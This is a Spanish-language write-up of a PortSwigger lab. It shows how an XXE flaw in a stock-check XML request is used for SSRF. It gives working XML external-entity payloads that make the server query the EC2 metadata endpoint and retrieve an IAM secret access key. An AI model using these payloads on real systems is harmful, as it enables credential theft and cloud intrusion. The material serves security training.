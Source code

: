 ```yaml
---
title: XXE Injection Lab 2
date: 2024-11-27 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE to perform SSRF attacks
image:
  path: /assets/img/XXE-Injection-Lab-2/Portswigger.png
---
```


## Skills

- Exploiting XXE to perform SSRF attacks

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y devuelve cualquier valor inesperado en la respuesta. El `servidor` del laboratorio está ejecutando un `endpoint` de `metadatos` de `EC2 (simulado)` en la `URL` predeterminada, que es `[http://169.254.169.254/](http://169.254.169.254/)`. Este `endpoint` puede usarse para obtener datos sobre la instancia, algunos de los cuales podrían ser sensibles. Para `resolver` el `laboratorio`, hay que `explotar` la vulnerabilidad `XXE` para llevar a cabo un ataque `SSRF` que `obtenga` la `clave secreta` de acceso `IAM` del servidor desde el `endpoint` de `metadatos` de `EC2`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-2/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-2/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-2/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Obtenemos `Doe` lo que quiere decir que ha funcionado y probablemente sea `vulnerable` a un `XXE`

![](/assets/img/XXE-Injection-Lab-2/image_4.png)

Con este `payload` hacemos un petición al `endpoint`, por lo cual estaríamos explotando un `SSRF (Server Side Request Forgery)` a través de un `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La `respuesta` del `servidor` nos `devuelve` el `nombre`, en este caso es `latest`, debemos ir haciendo peticiones hasta `obtener` la `ruta` del `endpoint` completa

![](/assets/img/XXE-Injection-Lab-2/image_5.png)

Con este nuevo `payload` obtenemos la `secret acces key` del usuario `admin`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![](/assets/img/XXE-Injection-Lab-2/image_6.png)
